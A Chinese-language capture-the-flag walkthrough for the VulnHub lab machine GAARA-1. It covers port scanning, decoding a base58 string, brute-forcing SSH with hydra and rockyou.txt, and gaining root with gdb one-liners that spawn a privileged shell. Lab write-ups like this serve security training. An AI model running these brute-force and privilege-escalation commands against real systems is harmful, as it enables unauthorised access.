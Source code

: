 ```yaml
---

title: Vulnhub	629 GAARA-1

---
```

考点：hydra,gdb

靶机链接：<https://www.vulnhub.com/entry/gaara-1,629/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| GAARA-1    | 10.0.2.31 |

## 初步打点

### 端口扫描


```bash
$ export rip=10.0.2.31
$ sudo nmap -v  -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:a3:6f:64:03:33:1e:76:f8:e4:98:fe:be:e9:8e:58 (RSA)
|   256 6c:0e:b5:00:e7:42:44:48:65:ef:fe:d7:7c:e6:64:d5 (ECDSA)
|_  256 b7:51:f2:f9:85:57:66:a8:65:54:2e:05:f9:40:d2:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.38 (Debian)

```

### WEB测试

![1](https://static.iihack.com/vulnhub/629/1.jpg)

获得目录`/Cryoserver`

![2](https://static.iihack.com/vulnhub/629/2.jpg)

获得三个目录，分别访问找信息

![3](https://static.iihack.com/vulnhub/629/3.jpg)

发现特殊字符串

![4](https://static.iihack.com/vulnhub/629/4.jpg)

上cyberchef试了试base58解密得到 `gaara:ismyname` ，然而ssh直接登录失败。

## 获得权限

暴力破解用户`gaara`的密码

```bash
$ hydra -l gaara -P /usr/share/wordlists/rockyou.txt -f 10.0.2.31 ssh -t 50
[DATA] attacking ssh://10.0.2.31:22/
[22][ssh] host: 10.0.2.31   login: gaara   password: iloveyou2
[STATUS] attack finished for 10.0.2.31 (valid pair found)
```

![5](https://static.iihack.com/vulnhub/629/5.jpg)

## 提权

上`linpeas.sh`

![6](https://static.iihack.com/vulnhub/629/6.jpg)

果断上[gtfobins](https://gtfobins.github.io/gtfobins/gdb/) 构建了两条python利用链

```bash
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit

gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit

```

![7](https://static.iihack.com/vulnhub/629/7.jpg)
